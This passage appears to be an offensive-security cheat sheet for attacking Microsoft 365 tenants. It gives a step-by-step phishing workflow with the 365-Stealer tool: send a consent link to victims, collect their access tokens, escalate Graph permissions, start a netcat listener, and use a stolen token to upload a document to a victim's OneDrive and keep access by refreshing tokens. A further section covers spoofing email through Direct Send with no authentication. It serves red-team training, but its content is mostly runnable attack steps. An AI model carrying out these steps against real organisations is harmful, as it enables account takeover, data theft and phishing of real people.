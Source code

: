 ### 365 stealer
- Follow the setup at: [https://github.com/AlteredSecurity/365-Stealer](https://github.com/AlteredSecurity/365-Stealer#setup-365-stealer)
- Start Xammp and go to http://localhost/365-stealer/yourVictims/ then click `365-Stealer configuration`. Fill in the `Client ID`, `Client Secret` and `Redirect URI`
- Start 365-Stealer `Python .\365-Stealer.py --run-app`

#### Get the phishinglink
- Browse to https://localhost and click on readmore. Copy the link!

#### Send phishinglink to targets

#### Get the access tokens
- Browse to http://localhost:82/365-Stealer/yourvictims/
- Click on the user and copy the access token from access_token.txt

#### Get admin consent
- https://docs.microsoft.com/en-us/azure/active-directory/manage-apps/grant-admin-consent
- Global Admin, Application Admin, or Cloud Application Administrator can all grant tenant wide application admin consent
```
- In the left menu go to 'API permissions' and add the mail.read, notes.read.all, mailboxsettings.readwrite, files.readwrite.all, mail.send to Microsoft Graph.
- Refish the user to get a token with the extra permissions
```

#### Start a listener
```
nc.exe -lvp 4444
```

#### Abuse the access token - Uploading word doc to OneDrive
```
cd C:\xampp\htdocs\365-Stealer\

& 'C:\Program Files\Python38\python.exe' 365-Stealer.py --upload <PATH TO DOC> --token-path C:\xampp\htdocs\365-Stealer\yourVictims\<USER>\access_token.txt
```

#### Refresh all tokens
- Access token is valid for 1 hour, can't be revoked.
- Refresh token is valid for 90 days but can be revoked.
```
python 365-Stealer.py --refresh-all
```

### Email spoofing
- https://www.blackhillsinfosec.com/spoofing-microsoft-365-like-its-1995/
- Microsoft Direct Send is the feature that can be utilised to send spoofing emails.
- The benefits for the the attackers is that the Direct Send feature requires NO authentication and can be sent from OUTSIDE of the organisation.
- There are only 2 prerequisites: Microsoft 365 subscription and Exchange Online Plan
